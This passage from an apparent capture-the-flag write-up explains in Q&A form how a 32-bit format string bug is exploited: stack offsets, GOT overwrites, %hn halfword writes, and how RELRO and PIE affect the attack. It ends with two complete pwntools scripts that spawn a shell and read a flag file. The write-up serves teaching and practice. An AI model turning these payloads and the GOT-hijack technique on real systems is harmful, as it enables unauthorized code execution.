The 4 raw bytes of the address `p32(0x0804a02c)` appear before any `%` conversion, so `printf` prints them verbatim as literal characters — this advances the internal "characters printed" counter to 4. `%11$n` then resolves to argument slot #11, which (per the offset found via `%x` probing) is exactly those same 4 bytes reinterpreted as a pointer — i.e. it points to `0x0804a02c` itself. `%n` writes the current character count (4) to that pointer. Because the address happens to be exactly 4 bytes long and the desired value also happens to be 4, no extra width padding (`%Nc`) is needed — a coincidence specific to this target value, not a general rule.
</details>

<details>
<summary><b>Q4.</b> Why must the positional offset (11) be determined per-binary rather than assumed to be a fixed constant across different format string challenges?</summary>

The offset corresponds to how far `buf` sits from `esp` at the moment of the vulnerable `call printf@plt`, measured in 4-byte stack slots. This depends entirely on the specific stack frame layout of the vulnerable function — local variable count and ordering, compiler-inserted padding/alignment, saved registers, canary placement, and so on. A different binary (even one with an identical-looking bug) will almost always have a different frame layout and therefore a different offset. It must be measured empirically (or derived from the disassembly, as cross-checked here: `esp+0x2c` → `0x2c/4 = 11`) for each target.
</details>

<details>
<summary><b>Q5.</b> Why does the GOT overwrite have to target the second <code>printf@plt</code> call rather than the first (vulnerable) one, even though both calls go through the identical PLT stub?</summary>

By the time the first `printf(buf)` call's instructions are actually executing (including the part of its own output that performs our `%n` write), the PLT stub for that specific `call` instruction has already read the GOT entry and already jumped into real `printf` in libc — that dereference is in the past and can't be changed retroactively by a write that happens *during* the function it dispatched to. The GOT entry is a piece of persistent process state, though, so once our write completes and the first call returns, any *subsequent* `call printf@plt` — such as the second one a few instructions later — reads the GOT fresh and picks up our modified value.
</details>

<details>
<summary><b>Q6.</b> Why is jumping to <code>0x80485df</code> required instead of jumping directly to <code>0x80485e6</code> (the <code>call system@plt</code> instruction itself)?</summary>

cdecl requires the caller to place arguments at `[esp]` *before* executing `call` — the callee never sets up its own arguments. `0x80485df` is the `mov [esp], 0x80486f3` instruction that places the address of `"/bin/sh"` at `[esp]`; `0x80485e6` is the `call` immediately after it. Jumping straight to `0x80485e6` skips that `mov`, so when `system()` reads `[esp]` for its argument, it instead finds whatever value was left there by the prior instruction stream (effectively garbage with respect to being a valid string pointer), and the call crashes instead of spawning a shell. Including the `mov` in the jump target ensures the argument is correctly in place first.
</details>

<details>
<summary><b>Q7.</b> Why is <code>%hn</code> used instead of <code>%n</code> for the GOT-hijack write, and why must the two halfwords be written in a specific order?</summary>

The target value `0x080485df` is too large to reach by printing that many literal output characters within the buffer/read-length budget. `%hn` writes only the low 16 bits (a `short`) at the target pointer instead of a full 32-bit `int`, letting the address be built from two independent 2-byte writes to two adjacent pointers (`GOT`, `GOT+2`) rather than one enormous write. Because `printf`'s internal output-character counter can only increase during a single call (there's no way to "print negative" and decrement it), the two writes must be ordered so that the first corresponds to the smaller required width-padding total, with the second write's padding only needing to cover the *delta* up to the second (larger, or differently valued) target — not the full value again from zero.
</details>

<details>
<summary><b>Q8.</b> Why does the GOT-hijack method still produce a shell despite triggering <code>__stack_chk_fail</code> on process exit, and why doesn't that crash need to be fixed?</summary>

Jumping into the middle of `main` at `0x80485df` and executing the `mov [esp], "/bin/sh"` there overwrites a stack slot that, under the program's *original* control flow, held the return address for the `printf` call we hijacked. This corrupts the stack layout `main`'s epilogue expects. When `system("/bin/sh")` eventually returns and `main` reaches its own canary check and `leave`/`ret` sequence, the mismatch is detected and `__stack_chk_fail()` aborts the process. However, `system("/bin/sh")` has already spawned an interactive shell by that point, and we've already sent the flag-reading command through it — the crash happens during process teardown, strictly after the objective has been achieved, so it has no effect on the exploit's success.
</details>

<details>
<summary><b>Q9.</b> Why was Partial RELRO (as opposed to Full RELRO) a prerequisite for Method 2 specifically, while Method 1 didn't depend on it at all?</summary>

Full RELRO makes the GOT read-only after the dynamic linker finishes resolving all symbols at process startup, which would make any attempt to `%n`-write into a GOT entry simply fail (segfault on write, or be silently blocked depending on how it's mapped) — Method 2 is entirely dependent on the GOT remaining writable, which Partial RELRO guarantees it does for the process's lifetime. Method 1 never touches the GOT at all; it writes into the `.data`/`.bss`-resident global `x`, which is writable regardless of the RELRO setting, since RELRO only affects GOT/relocation-related sections, not ordinary global variables.
</details>

<details>
<summary><b>Q10.</b> Why is PIE being disabled essential to both exploitation methods, and what would have to change about the approach if PIE were enabled instead?</summary>

Both methods hard-code absolute addresses directly in the exploit (`0x0804a02c` for the global, `0x0804a004` for the GOT entry, `0x080485df` for the jump target) — this only works because, with PIE disabled, the binary is always loaded at the same fixed base address (`0x8048000`) on every run, local or remote. If PIE were enabled, every one of these addresses would be randomized per-process-launch by ASLR, and none of the hard-coded addresses would be valid. An info leak (most naturally, using the same format string bug's `%s`/`%x` read primitive to leak a stack or GOT value and back-calculate the binary's randomized load base) would be a mandatory first stage before either write technique could be attempted.
</details>

---

## Appendix: Full Exploit Scripts

### `exploit_global_overwrite.py`

```python
from pwn import *

context.arch = 'i386'

HOST = "<instance-host>"
PORT = 9999

TARGET_VAR = 0x0804a02c

payload = p32(TARGET_VAR) + b"%11$n"

p = remote(HOST, PORT, ssl=True, sni=HOST)
p.sendline(payload)
p.sendline(b"cat /flag; exit")
print(p.recvall(timeout=4).decode(errors="replace"))
```

### `exploit_got_hijack.py`

```python
from pwn import *

context.arch = 'i386'

HOST = "<instance-host>"
PORT = 9999

PRINTF_GOT  = 0x0804a004
SYSTEM_SITE = 0x080485df

lo = SYSTEM_SITE & 0xffff
hi = (SYSTEM_SITE >> 16) & 0xffff

payload  = p32(PRINTF_GOT) + p32(PRINTF_GOT + 2)
payload += f"%{hi - 8}c%12$hn".encode()
payload += f"%{lo - hi}c%11$hn".encode()

p = remote(HOST, PORT, ssl=True, sni=HOST)
p.sendline(payload)
p.sendline(b"cat /flag; exit")
print(p.recvall(timeout=4).decode(errors="replace"))
```

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
